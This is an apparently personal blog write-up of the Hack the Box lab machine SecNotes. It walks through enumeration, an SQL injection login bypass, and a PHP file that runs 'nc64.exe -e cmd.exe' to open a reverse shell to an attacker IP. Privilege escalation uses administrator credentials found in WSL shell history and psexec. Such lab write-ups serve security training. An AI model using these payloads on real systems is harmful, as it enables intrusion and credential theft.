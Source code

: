 ```yaml
---
title: SecNotes
date: 2024-02-27 10:00
categories: [ctf, security, hacking, exploits, web application, SQL Injection, Arbitrary File Upload, Arbitrary File Write, Cross Site Request Forgery]
tags: [ctf, security, hacking, exploits, web application, SQL Injection, Arbitrary File Upload, Arbitrary File Write, Cross Site Request Forgery]
---
```


# Overview
SecNotes is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic web enumeration and file reading, with using SQL Injection on the login page. The foothold is accomplished after some enumeration of a couple files in the web server, and then putting a shell in the smb drive. The privilege escalation is using a file on the machine to check the history of the windows subsystem for linux to find credentials, and using this to gain admin access. 

## Nmap Scan
nmap -T3 -Pn `10.10.10.97` -vvv

* 80/tcp   open  http  syn-ack
* 445/tcp  open  microsoft-ds  syn-ack
* 8808/tcp open  ssports-bcast syn-ack

OS version: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)

## Basic Enumeration
Nothing coming up with smbclient, likely need an actual user rather than guest login. We can check out the web page, and run some web enumerations like nikto and gobuster while we check out whats on the web at both port 80 and 8808.

`Gobuster` gives us a fair number of web pages to check out: 
```
/auth.php             (Status: 500) [Size: 1208]
/contact.php       (Status: 302) [Size: 0] [--> login.php]
/Contact.php       (Status: 302) [Size: 0] [--> login.php]
/DB.php               (Status: 500) [Size: 1208]
/db.php               (Status: 500) [Size: 1208]
/home.php          (Status: 302) [Size: 0] [--> login.php]
/Home.php        (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 1223]
/Login.php            (Status: 200) [Size: 1223]
/logout.php        (Status: 302) [Size: 0] [--> login.php]
/register.php         (Status: 200) [Size: 1569]
```
PHP is used in this environment on the web service: `PHP/7.2.7`.

* At the login portal, we see we have the abilitiy to register. Here, we can test and see if SQL Injection is available to use by registering as user `'OR 1 OR'`.
* Using this user and signing in, we have unexpected access to other user notes. 
* Checking out the other notes, we can see a note that gives us a password: `tyler / 92g!mA8BGjOirkL%OG*&`

## Foothold
Using the credentials we found, we can now enumerate the smb shares, and can see the share `new-site`:
```
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

* Using the level of access we have, we can try to put files onto the machine for execution. Putting something like `nc64.exe` is not enough, as we can't access that on the web. Since there is php on the web site, we can put a second file that will allow us to get `nc64.exe` to run. 

```php
<?php
system('nc64.exe -e cmd.exe 10.10.16.3 5555')
?>
```
* After we put both files into this share, we go out to the site on port 8808, and the file `rev1.php` should be accessible. With a netcat listener on our end, we can get a reverse shell after going to the page: http://10.10.10.97:8808/rev1.php
* We have to do it in quick succession, as we have found that files get cleared from the host every few minutes. We now have access to `user.txt`:

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/secnotes/SecNotes_User.png?raw=true)

## Local Enumeration
Trying to bring over files like `winpeas` didn't work and got blocked by the system AV. After doing some more manual checks on the host, we find that this machine has the `windows subsystem for linux` on it. 

* We find this and the bash executable inside a `winsxs` file path. 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#windows-subsystem-for-linux-wsl

From here, we can run the `bash.exe` file and drop into this subsystem. 

## Privilege Escalation
We are now in the linux local shell on the host. The interactive shell is a bit unstable, and we should escape using a tty escape. We can run the following to get a cleaner tty: `python -c 'import pty; pty.spawn("/bin/bash")'`

* While we are in this shell, we can poke around a bit to see what is here. A quick history check gives us the administator credentials: `smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$` (the `%` symbol signifies a space)

* With this, we should be able to run `psexec` and easily login as the administrator: `impacket-psexec 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97`
* We can now read `root.txt`: 

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/secnotes/SecNotes_Root.png?raw=true)